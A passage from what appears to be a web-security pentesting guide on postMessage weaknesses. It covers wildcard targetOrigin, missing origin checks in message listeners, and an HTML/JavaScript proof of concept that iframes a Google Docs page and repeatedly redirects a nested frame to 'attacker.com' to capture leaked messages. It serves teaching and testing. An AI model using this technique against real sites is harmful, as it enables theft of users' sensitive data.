 Note that **targetOrigin** can be a '\*' or an URL like _https://company.com._\
In the **second scenario**, the **message can only be sent to that domain** (even if the origin of the window object is different).\
If the **wildcard** is used, **messages could be sent to any domain**, and will be sent to the origin of the Window object.

### Attacking iframe & wildcard in **targetOrigin**

As explained in [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) if you find a page that can be **iframed** (no `X-Frame-Header` protection) and that is **sending sensitive** message via **postMessage** using a **wildcard** (\*), you can **modify** the **origin** of the **iframe** and **leak** the **sensitive** message to a domain controlled by you.\
Note that if the page can be iframed but the **targetOrigin** is **set to a URL and not to a wildcard**, this **trick won't work**.

```markup
<html>
   <iframe src="https://docs.google.com/document/ID" />
   <script>
      setTimeout(exp, 6000); //Wait 6s
      
      //Try to change the origin of the iframe each 100ms
      function exp(){
          setInterval(function(){ 
              window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
          }, 100);
      }
   </script>
```

## addEventListener exploitation

**`addEventListener`** is the function used by JS to declare the function that is **expecting `postMessages`**.\
A code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the **first thing** that the code is doing is **checking the origin**. This is terribly **important** mainly if the page is going to do **anything sensitive** with the received information (like changing a password). **If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints** and change the victims passwords (in this example).

### Enumeration

In order to **find event listeners** in the current page you can:
